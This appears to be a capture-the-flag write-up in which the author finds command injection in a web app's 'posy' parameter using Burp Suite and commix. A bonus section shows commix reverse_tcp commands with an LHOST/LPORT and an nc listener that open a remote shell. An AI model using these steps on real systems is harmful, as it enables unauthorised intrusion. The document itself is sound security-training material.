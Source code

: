 

We are given a website with a vehicle redirection function

![](https://i.imgur.com/Kiuqe0S.png)



Testing out the Functionality of the website i decided to alter the behavior of **ALG** since it was the only one in parked as shown in the last image

![](https://i.imgur.com/Kr2zaag.png)

Great, Now let test for Command Injection vulnerability, we are given 3 areas making it pretty hard to find, so i decided to use burpsuite to intercept the request


![](https://i.imgur.com/MQkpKvK.png)

Nice, we have 3 parameters which is `plate` , `posx` and `posy`, we can use a tool called `commix` to test out for command injection efficiently and faster

![](https://i.imgur.com/v94cy3d.jpg)
 
You should notice that i used only `posy` for the `--data` switch instead of "`plate=ASH&posx=200&posy=300`" , i had run the scan with level=3 making it really slow, so that was the parameter i found out, was injectable.

We can then pop-up a **pseudo-terminal** shell and then from there get a reverse shell with PHP since that is the web technology been used

![](https://i.imgur.com/0HWZQOq.jpg)


## **Bonus**

### **Getting a reverse shell**

I was finding it difficult to get a reverse shell using `commix` but here is how i went about it, you can type in this on commix command line

```bash
# start the reverse tcp session
commix(os_shell) > reverse_tcp

# set LHOST and LPORT
commix(reverse_tcp) > set LHOST 192.168.0.157
LHOST => 192.168.0.157
commix(reverse_tcp) > set LPORT 1234
LPORT => 1234
```

Depending on our target we would select what type of reverse shell we want, since it is a web shell we will select PHP

![](https://i.imgur.com/KWyxEGM.png)

> **Note :** Make sure to know the web technology your target uses first then you can select a proper reverse shell



Start up your listener and choose proper shell, I will be selecting `PHP` 

```bash
$ nc -lvnp 1234
```



![](https://i.imgur.com/vXLlk4r.png)


